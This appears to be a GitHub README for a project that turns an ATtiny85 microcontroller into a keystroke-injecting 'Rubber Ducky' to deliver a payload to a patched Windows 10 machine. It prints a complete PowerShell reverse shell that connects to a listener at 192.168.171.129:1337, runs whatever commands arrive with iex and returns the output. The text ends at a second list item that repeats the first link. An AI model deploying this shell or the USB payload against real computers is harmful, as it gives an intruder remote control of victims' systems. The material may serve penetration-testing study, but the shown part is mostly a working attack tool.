 # ATtiny85 "Rubber Ducky"
## Creating a rubber ducky from an inexpensive programmable microcontroller to deploy a payload on a patched windows 10 system.

View/Download the [ATtiny85-Rubber-Ducky-Guide.pdf](ATtiny85-Rubber-Ducky-Guide.pdf)

### Reverse Shell Scripts
1. PowerShell Version: [powershell-client.ps1](01-Shell-Scripts/PowerShell/powershell-client.ps1)

```powershell
// Code written by: Nikhil Mittal, availible @ http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html

$sm=(New-Object Net.Sockets.TCPClient("192.168.171.129",1337)).GetStream()

[byte[]]$bt=0..255|%{0}

while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0)
    {
        $d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i)
        $st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1))
        $sm.Write($st,0,$st.Length)
}
```

2. PowerShell Version: [powershell-client.ps1](01-Shell-Scripts/PowerShell/powershell-client.ps1)
